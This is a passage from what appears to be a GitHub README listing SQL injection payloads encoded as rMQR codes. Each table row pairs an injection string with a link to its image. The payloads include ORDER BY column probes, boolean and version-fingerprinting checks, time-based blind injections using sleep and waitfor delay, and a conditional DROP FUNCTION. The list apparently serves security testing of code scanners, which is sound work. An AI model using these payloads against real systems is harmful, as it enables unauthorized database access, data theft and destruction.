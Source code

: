 | ` ORDER BY 22 ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/187.png) |
| ` ORDER BY 23 ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/188.png) |
| ` ORDER BY 24 ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/189.png) |
| ` ORDER BY 25 ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/190.png) |
| ` ORDER BY 26 ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/191.png) |
| ` ORDER BY 27 ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/192.png) |
| ` ORDER BY 28 ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/193.png) |
| ` ORDER BY 29 ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/194.png) |
| ` ORDER BY 30 ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/195.png) |
| ` ORDER BY 31337 ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/196.png) |
| `IF(7423=7424) SELECT 7423 ELSE DROP FUNCTION xcjl--` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/197.png) |
| `IF(7423=7423) SELECT 7423 ELSE DROP FUNCTION xcjl--` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/198.png) |
| `%' AND 8310=8310 AND '%'='` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/199.png) |
| `%' AND 8310=8311 AND '%'='` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/200.png) |
| `and (select substring(@@version,1,1))='X'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/201.png) |
| `and (select substring(@@version,1,1))='M'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/202.png) |
| `and (select substring(@@version,2,1))='i'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/203.png) |
| `and (select substring(@@version,2,1))='y'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/204.png) |
| `and (select substring(@@version,3,1))='c'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/205.png) |
| `and (select substring(@@version,3,1))='S'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/206.png) |
| `and (select substring(@@version,3,1))='X'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/207.png) |
| `# from wapiti` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/208.png) |
| `sleep(5)#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/209.png) |
| `1 or sleep(5)#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/210.png) |
| `" or sleep(5)#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/211.png) |
| `' or sleep(5)#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/212.png) |
| `" or sleep(5)="` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/213.png) |
| `' or sleep(5)='` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/214.png) |
| `1) or sleep(5)#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/215.png) |
| `") or sleep(5)="` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/216.png) |
| `') or sleep(5)='` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/217.png) |
| `1)) or sleep(5)#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/218.png) |
| `")) or sleep(5)="` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/219.png) |
| `')) or sleep(5)='` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/220.png) |
| `;waitfor delay '0:0:5'--` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/221.png) |
| `);waitfor delay '0:0:5'--` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/222.png) |
| `';waitfor delay '0:0:5'--` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/223.png) |